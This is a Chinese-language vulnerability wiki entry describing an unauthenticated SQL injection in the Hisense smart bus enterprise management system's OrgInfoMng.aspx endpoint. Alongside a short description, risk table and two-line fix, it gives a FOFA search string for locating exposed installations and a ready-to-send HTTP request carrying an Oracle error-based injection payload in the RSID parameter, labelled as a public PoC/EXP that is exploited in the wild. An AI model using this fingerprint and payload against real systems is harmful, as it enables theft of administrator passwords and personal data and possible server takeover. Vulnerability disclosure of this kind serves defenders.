


# 海信智能公交企业管理系统 OrgInfoMng.aspx SQL注入漏洞

# 漏洞描述

海信智能公交企业管理系统 OrgInfoMng.aspx 接口存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

# 影响版本

海信智能公交企业管理系统

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="var _FactoryData"

POC/EXP：

GET /Erp/ErpAdmin/Form/OrgInfoMng.aspx?RSID=1%27+AND+9512%3DCTXSYS.DRITHSX.SN%289512%2C%28CHR%28113%29%7C%7CCHR%28118%29%7C%7CCHR%28120%29%7C%7CCHR%28120%29%7C%7CCHR%28113%29%7C%7C%28SELECT+%28CASE+WHEN+%289512%3D9512%29+THEN+1+ELSE+0+END%29+FROM+DUAL%29%7C%7CCHR%28113%29%7C%7CCHR%28120%29%7C%7CCHR%28118%29%7C%7CCHR%2898%29%7C%7CCHR%28113%29%29%29--+sfjW HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close

# 漏洞修复

关闭互联网暴露面或接口设置访问权限

升级至安全版本

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
